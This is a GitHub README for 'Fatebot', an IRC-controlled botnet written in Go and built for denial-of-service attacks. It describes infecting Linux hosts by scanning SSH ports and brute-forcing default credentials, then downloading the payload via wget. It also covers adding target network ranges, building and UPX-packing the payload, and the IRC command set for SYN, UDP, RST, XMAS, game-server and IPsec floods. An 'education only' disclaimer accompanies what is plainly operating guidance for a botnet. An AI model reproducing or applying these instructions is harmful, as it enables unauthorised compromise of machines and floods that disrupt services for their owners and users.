 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Bozer\Bulldozer (old name is R4bin) the author of Fatebot, feel free to do anything with it. read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with The cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA, CN, KR network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			"123.123", // 123.123.0.0/16
			"234.234", // 234.234.0.0/16
		}
	
	# After v0.6.0 will be use only 16bit of the ip range(I'm still confused about subnet mask lol).

(2) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			b.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Attack feature will play around with <strong>Volumetric</strong> mostly but also have an <strong>Application</strong> too.
All of the attack vectors will be <strong>random source port automatically, min and max of attack size will be 10 - 1450bytes.</strong>


<img src="assets/synflood.png" alt="synflood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC Server</li>
</ul>

<ul><li>IRC Backup Server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Payload Hosting Server</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer <strong>(Optional)</strong></li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

# IRC Commands
	
	DDoS Vectors:
	
		?udp 	 <srcIP> <dstIP> <port> <size>			Just a normal UDP Flood attack.
		?syn 	 <srcIP> <dstIP> <port> <size>			Just a normal SYN Flood attack.	
		?ack 	 <srcIP> <dstIP> <port> <size>			Just a normal ACK Flood attack.
		?fin	 <srcIP> <dstIP> <port> <size>			Flood TCP FIN packets to request close connection when target server are blocking a syn packet.
		?rst 	 <srcIP> <dstIP> <port> <size>			Flood TCP RST packets to broke a TCP connection between client and target server.
		?sap     <srcIP> <dstIP> <port> <size>			Flood by using TCP SYN+ACK Flags to the target server.
		?xmas    <srcIP> <dstIP> <port> <size>			Flood TCP packets by using all of TCP Flags to target server.
		?vse 	 <srcIP> <dstIP>				Flood TSource Engine Query request to the target game server that used valve source engine.
		?fms 	 <srcIP> <dstIP>				Flood query payload to a FiveM game server(They use to host GTAV i guess. i'm only playing "Hell let loose" for now, lol).
		?ipsec 	 <srcIP> <dstIP>				Flood payload to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	
	?scan 	 <modes> <ftp>				Scan SSH port on the network, Brute-Force attack to the target and load the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network.
		-usa		Scan on united state of america network.
		-kr		Scan on south korea network.
		-r		Scan with random ip.	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
